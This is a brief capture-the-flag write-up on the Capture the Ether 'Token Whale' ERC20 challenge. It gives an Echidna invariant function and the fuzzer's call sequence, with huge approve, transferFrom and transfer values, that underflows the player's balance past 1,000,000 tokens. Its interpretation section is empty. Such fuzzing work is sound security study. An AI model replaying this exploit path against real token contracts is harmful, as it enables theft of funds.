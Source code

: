 ## Token Whale Capture the Ether challenge and Echidna

### Challenge
The Token Whale contracts is an ERC20-compatible hard to acquire token. There’s a fixed supply of 1,000 tokens, all of which are user's to start with. Find a way to accumulate at least 1,000,000 tokens to solve this challenge.

### What was it testing?
The specific invariant being checked was the player's balance. In order to break the CTF we needed to violate the condition of a user's balance limit of 1,000,000, therefore this was the function:
```
    function echidna_isCompleted() public view returns (bool) {

        return balanceOf[player] <= 1000000;
    }
```

### Echidna results
The tool found this path to achieve the condition violation:
```
Call sequence:
   approve(0x20000,167133266616215219087984434971341992939411184825004473792248855581927478929) from: 0x0000000000000000000000000000000000030000 Time delay: 440097 seconds Block delay: 127
   transferFrom(0x30000,0xffffffff,671) from: 0x0000000000000000000000000000000000020000 Time delay: 355645 seconds Block delay: 32767
   transfer(0x10000,115792089237316195423570985008687907853269984665640564039457584007913129638936) from: 0x0000000000000000000000000000000000020000 Time delay: 297507 seconds Block delay:    
   transfer(0x30000,71834082248646112960033315906464535836812324211014610942410955687412905560741) from: 0x0000000000000000000000000000000000010000 Time delay: 358061 seconds Block delay: 33200
```

### Results interpretation

